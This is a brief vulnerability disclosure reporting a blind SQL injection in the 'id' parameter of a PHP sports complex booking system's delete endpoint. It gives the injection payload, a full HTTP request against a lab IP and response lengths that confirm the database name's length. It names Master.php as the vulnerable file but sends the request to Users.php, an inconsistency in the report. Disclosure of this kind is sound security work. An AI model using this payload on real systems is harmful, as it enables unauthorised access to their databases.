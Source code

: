 # Online Sports Complex Booking System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15236/online-sports-complex-booking-system-phpmysql-free-source-code.html

Vulnerability File: \scbs\classes\Master.php?f=delete

Vulnerability location: /scbs/classes/Master.php?f=delete, id

Current database name: scbs_db,length is 7

[+] Payload: 11' and length(database()) = 7--+

```sql
POST /scbs/classes/Users.php?f=delete HTTP/1.1
Host: 192.168.1.19
Content-Length: 37
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/scbs/admin/?page=user/list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p5eujbkhl692v4hpr6ltptnq06
Connection: close

id=11' and length(database()) = 7--+  // Leak place ---> id
```

When length (database ()) = 6, Content-Length: 269

![image](https://user-images.githubusercontent.com/54017627/165213918-ca001b08-af07-4e09-ae77-840cb66f2e8e.png)

When length (database ()) = 7, Content-Length: 19

![image](https://user-images.githubusercontent.com/54017627/165213959-92298531-c532-402e-9041-1bb4d076e45f.png)

